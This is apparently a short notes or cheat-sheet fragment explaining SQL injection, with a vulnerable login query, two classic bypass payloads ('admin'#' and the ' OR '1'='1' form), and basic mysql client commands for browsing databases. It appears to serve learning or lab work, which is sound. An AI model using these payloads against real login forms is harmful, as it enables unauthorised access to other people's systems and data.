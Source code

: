 #### SQL Injection

Exploiting SQL databases through unsanitized input.
- Example: `admin'#` to comment out the rest of the SQL query.

SELECT * FROM users WHERE username = '<input_username>' AND password = '<input_password>';
exploit:
	' OR '1'='1'; --


#### `mysql` and `MariaDB`

To connect to SQL databases:
mysql -h <hostname> -u <user>

Some useful SQL commands:
- `SHOW DATABASES;`
- `USE {database};`
- `SELECT * FROM {table};`

